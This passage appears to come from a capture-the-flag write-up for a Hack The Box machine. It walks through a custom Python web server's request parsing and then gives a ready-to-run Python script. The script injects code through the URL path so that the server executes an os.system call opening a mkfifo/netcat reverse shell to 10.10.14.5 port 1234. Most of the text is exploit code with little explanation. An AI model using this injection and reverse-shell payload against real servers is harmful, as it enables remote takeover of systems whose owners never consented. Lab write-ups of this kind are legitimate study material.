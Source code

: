 ```python
def serveDoc(self, path, docRoot) # here's the path we need to get it into

# which comes from...
def handleRequest(self, request, conn, address):
        if request.good:
            # ...
            document = self.serveDoc(request.doc, DOC_ROOT)

# So, we need request.good to be True. request.good is set here...
class Request:
    def __init__(self, request):
        self.good = True
        try:
            request = self.parseRequest(request)
            self.method = request["method"]
            self.doc = request["doc"]
            self.vers = request["vers"]
            self.header = request["header"]
            self.body = request["body"]
        except:
            self.good = False

# Let's read through parseRequest...
def parseRequest(self, request):        
    req = request.strip("\r").split("\n")
    method,doc,vers = req[0].split(" ")
    header = req[1:-3]
    body = req[-1]
    headerDict = {}
    for param in header:
        pos = param.find(": ")
        key, val = param[:pos], param[pos+2:]
        headerDict.update({key: val})
    return {"method": method, "doc": doc, "vers": vers, "header": headerDict, "body": body}

# Alright, let's break this down.
req = request.strip("\r").split("\n") # Remove carriage returns and split on newlines
method,doc,vers = req[0].split(" ")   # method, doc and vers are on the first line, separated by spaces
header = req[1:-3] # header is lines 1 to -3
body = req[-1]     # body is the last line
```

So, our request to the server must be something along the lines of:

```python
import requests
import urllib
import os

url = 'http://obscurity.htb:8080/'
path = 'junk\''+'\nos.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.5 1234 >/tmp/f")\njunk=\''

payload = urllib.parse.quote(path)
full_payload = url + payload

print(f"Full payload: {full_payload}")
resp = requests.get(full_payload)
print(resp.text)
```
